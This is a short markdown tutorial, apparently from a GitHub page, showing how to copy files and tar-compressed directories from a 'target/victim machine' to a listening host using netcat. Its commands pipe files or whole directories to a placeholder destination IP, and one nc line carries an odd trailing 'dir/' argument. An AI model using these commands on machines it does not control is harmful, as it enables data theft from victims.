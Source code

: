 
### Now we will see how to transfer `inputfile1` on host1 to `outputfile1` on host2.

1. On the receiving end, use the command to listen for inbound connections
```shell
nc -l -p 1234 > out.file
```

- This will start a listener on port 1234 on the listening end

2. On the sending target/victim machine, run
```shell
nc -w 2 {destination-ip} {port} < {filename on target system}
```

- `-w` stands for timeout in seconds



## If we want to compress the file and then send, we can use the following commands

1. On receiving side, use the command to start a listener
```shell
nc -l -p 3389 > out.file
```

2. On sending side, use the command to send the file
```shell
tar cfvz - /directory_to_zip | nc -w 3 {destination_ip} {listening port on our machine} dir/ 
```

On receiving end, use this command to untar the zipped file
```shell
tar xvzf {zipped_dir_name}
```

